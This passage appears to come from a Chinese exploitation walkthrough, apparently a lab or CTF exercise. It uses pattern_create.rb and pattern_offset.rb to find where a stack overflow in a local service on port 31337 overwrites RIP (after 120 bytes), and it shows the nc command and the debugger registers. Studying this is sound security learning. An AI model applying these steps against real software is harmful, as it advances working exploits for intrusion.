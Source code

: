 #### 3.3 位置查找

也不知道第几个 A 开始就报错，使用 pattern\_create.rb 生成 500 个，再使用 pattern\_offset.rb 定位  
从结果中可以知道：

1.  前面 120 个字符之后就开始覆盖 RIP 了
2.  栈能存 112

```bash
locate pattern_create.rb
pattern_create.rb -l 500

pattern_offset.rb -q Ae0A
pattern_offset.rb -q d7Ad

echo '生成的 500 字符' | | nc localhost 31337
```

```bash
//结果
 RBP  0x3964413864413764 ('d7Ad8Ad9')
 RSP  0x7fffffffd0d8 ◂— 0x6541316541306541 ('Ae0Ae1Ae')
 RIP  0x4009aa (handlecmd+70) ◂— ret
```

[![](assets/1703831476-2a3b85a76eea5fddd09f79fd92c18d92.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224805-f156bf10-a4c6-1.png)
